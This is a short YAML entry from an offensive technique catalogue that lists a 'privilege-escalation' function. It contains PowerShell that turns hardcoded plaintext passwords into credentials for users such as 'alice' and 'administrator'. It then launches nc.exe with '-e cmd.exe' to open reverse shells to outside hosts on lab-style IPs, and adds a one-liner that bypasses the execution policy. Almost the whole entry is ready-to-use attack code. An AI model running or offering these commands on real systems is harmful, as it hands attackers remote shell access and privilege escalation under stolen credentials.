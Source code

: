 ```yaml
---
functions:
  privilege-escalation:
    - description: Execute a function, script, or application as another user
      code: |
        $secpasswd = ConvertTo-SecureString "aliceisnothere" -AsPlainText -Force
        $mycreds = New-Object System.Management.Automation.PSCredential ("alice", $secpasswd)
        $computer = "localhost"
        [System.Diagnostics.Process]::Start("C:\users\public\nc.exe","192.168.119.149 9090 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

        Oneliner:
        $secpasswd = ConvertTo-SecureString "MEGACORP_4dm1n!!" -AsPlainText -Force;$mycreds = New-Object System.Management.Automation.PSCredential ("administrator", $secpasswd);$computer = "localhost";[System.Diagnostics.Process]::Start("nc.exe","10.10.14.61 2177 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

        Run:
        powershell -c "Set-ExecutionPolicy -Scope CurrentUser bypass;./runas.ps1"
---
```

